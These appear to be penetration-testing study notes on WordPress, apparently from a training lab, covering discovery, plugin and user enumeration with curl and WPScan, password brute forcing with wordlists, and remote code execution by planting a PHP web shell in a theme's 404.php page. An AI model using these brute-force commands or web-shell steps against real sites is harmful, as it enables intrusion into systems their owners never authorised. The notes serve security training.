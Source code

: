 # Wordpress

## Overview

## Discovery

A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Another quick way to identify a WordPress site is by looking at the page source.

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```

## Enumeration

### Themes and Plugins

Find the themes:

```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```

Find the plugins:

```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```

For the plugins found we can try to get there readme.txt to get their version:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
```

Check for exploits in both themes and plugins used.

### Users

An invalid username returns that the user was not found. So we can do user enumeration this way.

## Enumeration - Automation

### WPScan

```shell
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.loca
```

To enumerate users:

```shell
sudo wpscan -e u -t 500 --url http://ir.inlanefreight.local
```

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports

## Attacks

### Login Bruteforce

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
sudo wpscan --url http://ir.inlanefreight.local -U ilfreightwp -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top100.txt
```

### RCE

As admin, edit a used theme 404.php page, with:

```php
system($_GET[0]);
```

Then do

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

## Ohter Information

Check worpress vulnerabilities in:

https://wpscan.com